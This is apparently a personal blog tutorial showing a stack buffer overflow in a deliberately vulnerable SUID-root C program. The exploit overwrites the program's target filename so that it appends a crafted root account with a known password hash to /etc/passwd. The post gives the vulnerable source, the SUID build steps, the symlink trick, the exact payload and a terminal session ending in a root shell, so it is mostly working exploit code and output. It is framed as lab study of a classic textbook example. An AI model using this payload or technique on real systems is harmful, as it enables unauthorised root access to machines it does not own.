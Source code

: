 ```yaml
---
layout: post
title: Exploiting Simple Buffer Overflow (1)
comments: true
---
```


Recently I've been revising the concept of buffer overflow and its exploitation, so I will post a sequence of articles on this topic with varying settings. In this article, let's exploit a simple SUID-ed program with a stack-based BOF to add a new root-priviledged user with a chosen password. This example is referenced from the book [Hacking: the Art of Exploitation](http://www.amazon.com/Hacking-Art-Exploitation-Jon-Erickson/dp/1593271441/ref=sr_1_sc_1?ie=UTF8&qid=1446946770&sr=8-1-spell&keywords=hacking+the+art+of+exploitaitn).  

------------------


```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  uname -a
Linux sirius 3.13.0-63-generic #103-Ubuntu SMP Fri Aug 14 21:42:59 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.3 LTS
Release:	14.04
Codename:	trusty
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  gcc --version 
gcc (Ubuntu 4.8.4-2ubuntu1~14.04) 4.8.4
Copyright (C) 2013 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.  There is NO
warranty; not even for MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
```

I'm using x86_64, but I will compile the program in 32bit mode.  

```C
#include    <stdio.h>
#include	<stdlib.h>
#include	<string.h>
#include	<fcntl.h>
#include	<unistd.h>

struct data {
	char buffer[100];
	char datafile[20];
};

int main (int argc, char **argv){
	struct data data;

	strcpy(data.datafile, "/var/notes");

	if (argc < 2) {
		printf("Usage: %s <buffer>\n", argv[0]);
		exit(1);
	}

	strcpy(data.buffer, argv[1]);

	printf("[DEBUG] data.buffer @ %p: \'%s\'\n", data.buffer, data.buffer);
	printf("[DEBUG] data.datafile @ %p: \'%s\'\n", data.datafile, data.datafile);

	int fd;
	fd = open(data.datafile, O_WRONLY| O_APPEND);
	printf("[DEBUG] fd @ %p: %d\n", &fd, fd);

	if (write(fd, data.buffer, strlen(data.buffer)) == -1) {
		fprintf(stderr, "in main() - no write\n");
		exit(1);
	}
	if (close(fd) == -1) {
		fprintf(stderr, "in main() - no close\n");
		exit(1);
	}
		return 0;
}
```

The program shown above simply appends `buffer` (copied from `argv[1]`) to the file `/var/notes` stored in `datafile`. There is one of the simplest forms of buffer overflow when strcpy is called to copy `argv[1]` to `buffer` --- when more than 100 characters are stored in `argv[0]`, then remaining would be overflowed. It is compiled and chown/chmod-ed as shown below.  

```
CC=gcc
CFLAGS=-m32 -std=c99 -Wall

all: pass_change

pass_change: pass_change.o
	$(CC) $(CFLAGS) -o $@ $^
	sudo chown 0:0 $@
	sudo chmod u+s $@

pass_change.o: pass_change.c

clean:
	rm pass_change.o pass_change
```


When `argv[1]` is not over 100 characters, it works perfectly.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  sudo touch /var/notes
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change AAAA                      
[DEBUG] data.buffer @ 0xffce9dd4: 'AAAA'
[DEBUG] data.datafile @ 0xffce9e38: '/var/notes'
[DEBUG] fd @ 0xffce9dd0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /var/notes 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  python -c "print 0xffce9e38-0xffce9dd4"
100
```

Since the offset between buffer and datafile is 100 (same as the size of buffer), the remaining part over 100 characters of argv[1] will be overwritten to `datafile`.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "A"x120')
[DEBUG] data.buffer @ 0xffed7924: 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
[DEBUG] data.datafile @ 0xffed7988: 'AAAAAAAAAAAAAAAAAAAA'
[DEBUG] fd @ 0xffed7920: -1
in main() - no write
```

By exploiting this BOF, let's create a new user with a chosen password by appending to `/etc/passwd` file. Following the format of `/etc/passwd` in UNIX system, I will add username `myroot` with password `password` --- `myroot:AA6tQYSfGxd/A:0:0:me:/root:/bin/bash`. As shown below, `password` is encrypted using Crypto() OpenSSL cryptographic library with a salt "AA". Note that the 3rd & 4th entry (i.e. "0:0") indicates root privilege. If you want to know the format of /etc/passwd more in detail, refer to a link [here](http://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/).  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e "print crypt('password', 'AA')"         
AA6tQYSfGxd/A
```

Since the content of datafile needs to be `/etc/passwd`, but the last entry in /etc/passwd needs to specify the user's default shell. So, let's create a symbolic link with the name `/tmp/etc/passwd` pointing to `/bin/bash`. Then, adjust the length of the user ID info (comment section), so that the location of `/etc/passwd` would be at 100.  

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ln -s /bin/bash /tmp/etc/passwd  
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x50 . ":/root:/tmp"' | wc -c
86
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp"' | wc -c
100
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"'
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
```

Good. The exploit code is ```myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd```. And you get the root shell.

```
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  ./pass_change $(perl -e 'print "myroot:AA6tQYSfGxd/A:0:0:" . "A"x64 . ":/root:/tmp" . "/etc/passwd"') 
[DEBUG] data.buffer @ 0xff8541b4: 'myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd'
[DEBUG] data.datafile @ 0xff854218: '/etc/passwd'
[DEBUG] fd @ 0xff8541b0: 3
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  cat /etc/passwd | grep myroot
myroot:AA6tQYSfGxd/A:0:0:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:/root:/tmp/etc/passwd
taishi@sirius:~/blackhat_python/bof_lab|master⚡
⇒  su myroot
Password: 
root@sirius:/home/taishi/blackhat_python/bof_lab# whoami
root
```
